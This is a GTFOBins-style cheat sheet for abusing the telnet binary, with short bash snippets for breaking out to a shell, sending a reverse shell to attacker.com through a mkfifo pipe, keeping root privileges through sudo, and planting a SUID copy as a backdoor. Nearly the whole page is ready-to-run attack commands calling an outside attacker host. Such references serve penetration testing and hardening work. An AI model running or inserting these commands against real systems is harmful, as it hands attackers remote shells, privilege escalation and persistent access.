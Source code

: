 # telnet

## **Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

- BSD version only. Needs to be connected first.
    
    ```bash
    RHOST=attacker.com
    RPORT=12345
    telnet $RHOST $RPORT
    ^]
    !/bin/sh
    ```
    

## **Reverse shell**

It can send back a reverse shell to a listening attacker to open a remote network access.

- Run `nc -l -p 12345` on the attacker box to receive the shell.
    
    ```bash
    RHOST=attacker.com
    RPORT=12345
    TF=$(mktemp -u)
    mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF
    ```
    

## **Sudo**

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- BSD version only. Needs to be connected first.
    
    ```bash
    RHOST=attacker.com
    RPORT=12345
    sudo telnet $RHOST $RPORT
    ^]
    !/bin/sh
    ```
    

## **Limited SUID**

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- BSD version only. Needs to be connected first.
    
    ```bash
    sudo install -m =xs $(which telnet) .
    
    RHOST=attacker.com
    RPORT=12345
    ./telnet $RHOST $RPORT
    ^]
    !/bin/sh
    ```